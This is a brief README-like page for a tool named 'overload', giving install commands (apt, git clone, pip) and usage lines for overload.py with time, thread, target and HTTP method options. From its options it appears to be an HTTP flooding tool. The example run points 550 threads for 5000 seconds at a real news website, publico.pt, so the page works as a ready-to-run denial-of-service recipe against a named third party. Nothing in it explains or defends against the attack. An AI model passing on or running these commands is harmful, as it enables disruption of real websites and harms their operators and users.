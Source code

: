 # overload

sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt

python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP

python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
